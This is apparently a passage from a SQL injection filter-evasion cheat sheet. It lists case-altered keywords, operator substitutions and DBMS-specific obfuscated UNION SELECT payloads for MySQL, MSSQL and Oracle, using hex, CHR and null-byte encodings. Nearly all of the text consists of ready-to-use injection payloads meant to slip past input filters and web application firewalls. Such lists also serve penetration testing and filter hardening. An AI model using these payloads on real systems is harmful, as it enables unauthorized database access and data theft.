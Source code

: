 ### Case modification
 
Bypass using uppercase/lowercase (see keyword AND)

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Bypass using keywords case insensitive / Bypass using an equivalent operator

```sql
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, BETWEEN, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

### Obfuscation by DBMS

MySQL
```
1.UNION	SELECT	2	
3.2UNION	SELECT	2	
1e0UNION	SELECT	2	
SELECT\N/0.e3UNION	SELECT	2	
1e1AND-0.0UNION	SELECT	2	
1/*!12345UNION/*!31337SELECT/*!table_name*/	
{ts	1}UNION	SELECT.``	1.e.table_name	
SELECT	$.``	1.e.table_name	
SELECT{_	.``1.e.table_name}	
SELECT	LightOS	.	``1.e.table_name	LightOS	
SELECT	information_schema 1337.e.tables	13.37e.table_name	
SELECT	1	from	information_schema 9.e.table_name
```

MSSQL
```
.1UNION	SELECT	2	
1.UNION	SELECT.2alias	
1e0UNION	SELECT	2	
1e1AND-1=0.0UNION	SELECT	2	
SELECT	0xUNION	SELECT	2	
SELECT\UNION	SELECT	2	
\1UNION	SELECT	2	
SELECT	1FROM[table]WHERE\1=\1AND\1=\1	
SELECT"table_name"FROM[information_schema].[tables]	
```

Oracle
```
1FUNION	SELECT	2	
1DUNION	SELECT	2	
SELECT	0x7461626c655f6e616d65	FROM	all_tab_tables
SELECT	CHR(116)	||	CHR(97)	||	CHR(98)	FROM	all_tab_tables
SELECT%00table_name%00FROM%00all_tab_tables
```
